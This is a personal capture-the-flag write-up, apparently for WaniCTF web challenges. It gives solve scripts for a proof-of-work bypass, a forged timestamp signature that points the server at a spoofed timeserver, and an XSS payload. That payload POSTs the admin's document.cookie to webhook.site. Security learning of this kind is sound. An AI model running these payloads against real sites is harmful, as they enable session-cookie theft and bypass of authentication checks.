 <h2>Bad_Worker:</h2>
Just curl the /FLAG.txt endpoint.

<h2>POW</h2>
You have to show Proof-of-work by finding 100000 integers whose hashes have the preceding 24bits as zeroes.
First thought:
Find one just number and then just send that same to the server 100000 times but I thought this was just too resource intensive.
Still ran a script to find such a number:
```
function hash(input) {
  let result = input;
  for (let i = 0; i < 10; i++) {
    result = CryptoJS.SHA256(result);
  }
  return (result.words[0] & 0xFFFFFF00) === 0;
}

let i = BigInt(0);
async function main() {
  async function loop() {
    console.log(`Checking ${i.toString()}...`);
    for (let j = 0; j < 1000; j++) {
      i++;
      if (hash(i.toString())) {
        console.log(`Found valid hash for ${i.toString()}`);
        process.exit(0);
      }
    }
    setImmediate(loop);
  }
  loop();
}
main();
```

Got 2862152 as first result. Tried sending it but was stopped by a rate limit after a bit.

After seeing writeups:
I am dumb. 
Could have just sent an array of the number repeated 1000000 times.

Solve.py:(Not mine sadly)

```
import requests

s = requests.Session()

headers = {"Content-Type": "application/json"}

for i in range(10):
    payload = "[" + ",".join(['"2862152"'] * 100000) + "]"
    resp = s.post("https://web-pow-lz56g6.wanictf.org/api/pow", data=payload)
    print(resp.text)
	
```
OR

`for(let i=0;i<10;i++)await send(new Array(100000).fill("2862152"));`
Javascript one liner which you can directly run in console.

<h2>One day one letter</h2>
This was sort of a rev challenge. 
We get one letter of the flag each day and the flag has 12 characters. 
The timestamp is provided to the server via a timeserver which is specified with the request 
The timeserver provides the timestamp signature and the public key. 
The content server checks if the signature is validated by the public key and if it does then sends a letter of the flag.
So basically have to create own key pair and sign the timestamp with it and send to server.
Doing so for different timestamps gives one letter at a time.

Solve script (Not mine) Credit: https://xp.goodwillmischief.fr/posts/web/

```
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import hashlib
import time
import requests
import re
import time

import urllib3
urllib3.disable_warnings()

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

print(pubkey)  # paste at http://attacker-server/pubkey

headers = {
  'Content-Type': 'application/json',
}

proxies = {
  "http": "0.0.0.0:8080",
  "https": "0.0.0.0:8080"
}

time.sleep(10)


def send_req(tstamp, signature):
  json_data = {
      'timestamp': tstamp,
      'signature': signature,
      'timeserver': 'happi.free.beeceptor.com',
  }
  response = requests.post(
      'https://web-one-day-one-letter-content-lz56g6.wanictf.org/',
      headers=headers,
      json=json_data,
      verify=False,
      proxies=proxies,
  )
  return response

def find_letter(html):
    pattern = r'FLAG{\?+([a-zA-Z]).*}'
    match = re.search(pattern, html) 
    
    if match:
        return match.group(1)
    else:
        return 1


if __name__ == "__main__":
    timestamp = int(time.time())
    flag = [0]*12

    for i in range(12):
      idx = timestamp // (60*60*24) % 12
      print(f"{timestamp} -> {idx}")

      # Convert timestamp to string and encode to bytes
      timestamp_bytes = str(timestamp).encode('utf-8')

      h = SHA256.new(timestamp_bytes)
      signer = DSS.new(key, 'fips-186-3')
      signature = signer.sign(h)

      r = send_req(timestamp_bytes.decode(), signature.hex())
      c = find_letter(r.content.decode())
      print(f"[+] {c} found at pos {idx}")
      flag[idx] = str(c)

      # Add one day from the timestamp
      timestamp += 60*60*24
      print(flag)
    
    print(''.join(flag))
    FLAG{lyingthetime}
```

<h2>Noscript</h2>

We need to retrieve the admin’s cookie who is a XSS bot using playwright.
https://xp.goodwillmischief.fr/posts/web/


Another solution without meta tags:
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>

Changing the type from text/plain to text/html is important as the username endpoint (which has no csp and thus vulnerable and used)
just shows the username as text which won't get it to execute when visited by admin.
